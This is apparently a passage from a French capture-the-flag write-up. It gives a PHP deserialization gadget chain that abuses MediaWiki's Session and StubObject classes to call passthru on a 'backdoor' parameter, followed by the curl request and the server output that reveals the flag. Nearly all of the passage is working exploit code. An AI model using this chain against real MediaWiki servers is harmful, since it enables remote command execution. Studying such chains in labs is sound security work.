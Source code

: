 ```php
namespace {
	$stub = new \MediaWiki\StubObject\StubObject();
	$stub->global = "wgUser";
	$stub->factory = "passthru";
	$stub->params = array("/printflag2");

	$session = new \MediaWiki\Session\Session();
	$session->backend = $stub;

	$payload = base64_encode(serialize($session));
	echo $payload;
}
?>
```

La résolution du défi cause des erreurs, mais ça nous importe peu:

```bash
$ curl "http://localhost:8080/rest.php/?backdoor=$(php payload2.php)"
flag-82853a62299d08bd<!DOCTYPE html>
<html><head><title>Erreur interne — Club des trampofolies</title><meta name="color-scheme" content="light dark" /><style>body { font-family: sans-serif; margin: 0; padding: 0.5em 2em; }</style></head><body>
<div dir=ltr><div class="cdx-message--error cdx-message cdx-message--block"><span class="cdx-message__icon"></span><div class="cdx-message__content"><p>[15dd17273c1b3f3131629fd8] /rest.php/?backdoor=TzoyNToiTWVkaWFXaWtpXFNlc3Npb25cU2Vzc2lvbiI6MTp7czo3OiJiYWNrZW5kIjtPOjMxOiJNZWRpYVdpa2lcU3R1Yk9iamVjdFxTdHViT2JqZWN0IjozOntzOjY6Imdsb2JhbCI7czo2OiJ3Z1VzZXIiO3M6NzoiZmFjdG9yeSI7czo4OiJwYXNzdGhydSI7czo2OiJwYXJhbXMiO2E6MTp7aTowO3M6MTE6Ii9wcmludGZsYWcyIjt9fX0=   UnexpectedValueException: &#039;factory&#039; did not return an object</p><p>Backtrace:</p><p>from /var/www/html/vendor/wikimedia/object-factory/src/ObjectFactory.php(229)<br />
#0 /var/www/html/includes/StubObject/StubObject.php(141): Wikimedia\ObjectFactory\ObjectFactory::getObjectFromSpec(array)<br />
#1 /var/www/html/includes/StubObject/StubObject.php(231): MediaWiki\StubObject\StubObject-&gt;_newObject()<br />
#2 /var/www/html/includes/StubObject/StubObject.php(124): MediaWiki\StubObject\StubObject-&gt;_unstub(string, int)<br />
#3 /var/www/html/includes/StubObject/StubObject.php(155): MediaWiki\StubObject\StubObject-&gt;_call(string, array)<br />
#4 /var/www/html/includes/session/Session.php(78): MediaWiki\StubObject\StubObject-&gt;__call(string, array)<br />
#5 /var/www/html/rest.php(35): MediaWiki\Session\Session-&gt;__destruct()<br />
#6 {main}</p>
</div></div></div></body></html>
```